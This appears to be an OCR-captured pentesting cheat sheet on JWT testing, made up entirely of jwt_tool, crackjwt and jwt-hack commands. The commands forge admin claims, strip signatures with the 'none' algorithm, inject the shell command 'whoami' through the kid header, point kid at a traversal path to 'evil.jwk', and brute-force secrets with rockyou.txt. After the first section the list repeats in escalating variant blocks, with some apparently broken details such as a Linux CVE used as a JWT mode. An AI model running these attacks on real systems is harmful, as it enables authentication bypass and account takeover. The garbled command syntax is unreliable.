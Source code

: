 ### 5.1 JWT Testing
    :- Tamper alg, change payload claim
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    
    :- kid header injection for command execution
    jwt_tool eyJhbGci... --exploit -I -hc kid -hv "/dev/null;whoami"
    
    :- Sign with new key (e.g. after alg confusion)
    jwt_tool eyJhbGci... -S hs256 -k "public_key.pem"
    
    :- Verify with public key
    jwt_tool eyJhbGci... -V -pk public_key.pem
    
    :- Add new 'password' claim
    jwt_tool eyJhbGci... -A -p password
    
    :- Decode only
    jwt_tool eyJhbGci... -d

    
    :- Brute force HS256 secret
    crackjwt -t eyJhbGci... -w rockyou.txt -a HS256
    
    :- Test for weak public key in RS256 (e.g. if it's actually the private key)
    crackjwt -t eyJabc... -w wordlist.txt -a RS256 --pubkey public.pem
    -------
    jwt_tool eyJhbGci...
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    crackjwt -t eyJhbGci... -w rockyou.txt
    crackjwt -t eyJhbGci... -w wordlist.txt -a HS256
    jwt-hack -t token.jwt -m all -o results.txt
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc "" -pc admin -pv true
    jwt_tool eyJhbGci... --exploit -X n -i
    jwt_tool eyJhbGci... --exploit -X s -hs none
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256 -v
    crackjwt -t eyJhbGci... -k $(cat private.key) -a RS256 -m verify
    jwt-hack -t token.jwt -m all -o results_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt
    jwt-hack -t token.jwt -m alg none -s ""
    jwt-hack -t token.jwt -m kid inject -p '{"kid": "../../evil.jwk"}'
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc " " -pc admin -pv " "
    jwt_tool eyJhbGci... --exploit -X n -i -is none
    jwt_tool eyJhbGci... --exploit -X s -hs HS256 -k ""
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256,ES256 -v -j 8
    crackjwt -t eyJhbGci... -k $(cat public.key) -a RS256 -m verify -p
    jwt-hack -t token.jwt -m all -o results_very_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/probable-v2-top15.txt -delay 1
    jwt-hack -t token.jwt -m cve-2019-11477 -s '{"alg":"none"}'
    jwt-hack -t token.jwt -m jwk -j $(cat evil.jwk)